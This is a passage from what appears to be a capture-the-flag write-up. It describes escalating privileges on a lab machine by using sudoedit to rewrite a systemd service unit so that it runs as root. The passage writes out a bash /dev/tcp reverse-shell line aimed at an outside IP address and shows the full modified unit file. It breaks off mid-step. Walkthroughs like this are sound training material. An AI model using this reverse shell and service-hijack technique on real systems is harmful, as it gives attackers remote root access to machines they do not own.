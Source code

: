 So, we can edit the `/etc/systemd/system/duckyinc.service`, let's take a look at the service:

```
[Unit]
Description=Gunicorn instance to serve DuckyInc Webapp
After=network.target

[Service]
User=flask-app
Group=www-data
WorkingDirectory=/var/www/duckyinc
ExecStart=/usr/local/bin/gunicorn --workers 3 --bind=unix:/var/www/duckyinc/duckyinc.sock --timeout 60 -m 007 app:app
ExecReload=/bin/kill -s HUP $MAINPID
ExecStop=/bin/kill -s TERM $MAINPID

[Install]
WantedBy=multi-user.target
```

We can modify the service using `sudoedit`, let's do it:

```
sudoedit /etc/systemd/system/duckyinc.service
```

Now, we can either modify the service to spawn a reverse shell or a shell directly:

```
ExecStart=/bin/bash -i >& /dev/tcp/10.14.21.28/9001 0>&1
```

Or:

```
ExecStart=/bin/bash /tmp/shell.sh
```

We need to modify the file in the following way:

```
[Unit]
Description=Gunicorn instance to serve DuckyInc Webapp
After=network.target

[Service]
User=root
Group=root
WorkingDirectory=/var/www/duckyinc
ExecStart=/bin/bash -i >& /dev/tcp/IP/9001 0>&1
ExecReload=/bin/kill -s HUP $MAINPID
ExecStop=/bin/kill -s TERM $MAINPID

[Install]
WantedBy=multi-user.target
```

If we follow the direct shell path, we need to create a file with the following contents:
